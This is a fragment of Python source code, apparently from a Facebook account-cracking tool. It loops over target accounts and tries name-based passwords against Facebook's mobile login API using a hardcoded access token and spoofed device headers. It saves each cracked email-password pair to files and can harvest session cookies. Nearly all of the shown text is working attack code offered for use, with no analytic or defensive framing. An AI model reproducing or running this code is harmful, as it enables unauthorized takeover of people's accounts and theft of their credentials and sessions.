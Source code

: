             last = first
        pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r\033[1;91m[\033[1;97mJXS-M1\033[1;91m]\033[1;97m {}-{} \033[1;91m[\033[1;97m{}\033[1;91m] \033[1;97mOK : \033[1;92m{} \033[1;97mCP : \033[1;91m{}       \r'.format(str(loop), str(len(accounts)), pers , str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:              
            heads = None
            header = {"Content-Type": "application/x-www-form-accencoded","Host": "graph.facebook.com","User-Agent": heads,"X-FB-Net-HNI": "45204","X-FB-SIM-HNI": "45201","X-FB-Connection-Type": "unknown","X-Tigon-Is-Retry": "False","x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","X-FB-Friendly-Name": "ViewerReactionsMutation","X-FB-Request-Analytics-Tags": "graphservice","Accept-Encoding": "gzip, deflate","X-FB-HTTP-Engine": "Liger","X-FB-Client-IP": "True","X-FB-Server-Cluster": "True","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","Connection": "Keep-Alive"}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_US","client_country_code": "US","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=False)
      #      print(response.text)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;97mShezii😍-OK\033[1;92m] \033[1;97m'+acc+' \033[1;92m✓\033[1;97m '+pword+'  ')
                open('/sdcard/Shezii😍-OK.txt','a').write(f'{acc} ✓ {pword}\n')
                if c=='y':
                    try:
                           q = json.loads(response.text)
                           ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                           ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                           cookies = f"sb={ssbb};{ckkk}"
                    except Exception as e:print(str(e)+' | '+response.text)
                break
            elif 'www.facebook.com' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;91m[\033[1;97mShezii😍-CP\033[1;91m] \033[1;97m'+acc+' \033[1;91m✓\033[1;97m '+pword+'   ')
                cpacc.append(acc)
                open('/sdcard/Shezii😍-CP.txt','a').write(f'{acc} ✓ {pword}\n')
                break
            else:
                continue
        loop += 1
     except Exception as e:time.sleep(10)
   